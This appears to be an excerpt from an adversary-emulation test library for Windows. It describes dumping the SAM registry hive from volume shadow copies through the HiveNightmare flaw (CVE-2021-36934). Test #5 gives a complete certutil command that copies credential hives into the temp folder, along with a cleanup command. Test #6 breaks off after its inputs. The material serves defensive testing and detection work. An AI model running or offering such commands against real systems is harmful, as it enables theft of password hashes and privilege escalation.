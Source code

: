 ## Atomic Test #5 - dump volume shadow copy hives with certutil

Dump hives from volume shadow copies with the certutil utility, exploiting a vulnerability known as "HiveNightmare" or "SeriousSAM".
This can be done with a non-admin user account. [CVE-2021-36934](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-36934)

**Supported Platforms:** Windows

**auto_generated_guid:** eeb9751a-d598-42d3-b11c-c122d9c3f6c7

#### Inputs:

| Name        | Description                                                                          | Type    | Default Value |
| ----------- | ------------------------------------------------------------------------------------ | ------- | ------------- |
| target_hive | Hive you wish to dump                                                                | string  | SAM           |
| limit       | Limit to the number of shadow copies to iterate through when trying to copy the hive | integer | 10            |

#### Attack Commands: Run with `command_prompt`!

```cmd
for /L %a in (1,1,#{limit}) do @(certutil -f -v -encodehex "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy%a\Windows\System32\config\#{target_hive}" %temp%\#{target_hive}vss%a 2 >nul 2>&1) & dir /B %temp%\#{target_hive}vss*
```

#### Cleanup Commands:

```cmd
for /L %a in (1,1,#{limit}) do @(del %temp%\#{target_hive}vss%a >nul 2>&1)
```

<br/>
<br/>

## Atomic Test #6 - dump volume shadow copy hives with System.IO.File

Dump hives from volume shadow copies with System.IO.File. [CVE-2021-36934](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-36934)

**Supported Platforms:** Windows

**auto_generated_guid:** 9d77fed7-05f8-476e-a81b-8ff0472c64d0

#### Inputs:

| Name        | Description                                                                          | Type    | Default Value |
| ----------- | ------------------------------------------------------------------------------------ | ------- | ------------- |
| target_hive | Hive you wish to dump                                                                | string  | SAM           |
| limit       | Limit to the number of shadow copies to iterate through when trying to copy the hive | integer | 10            |
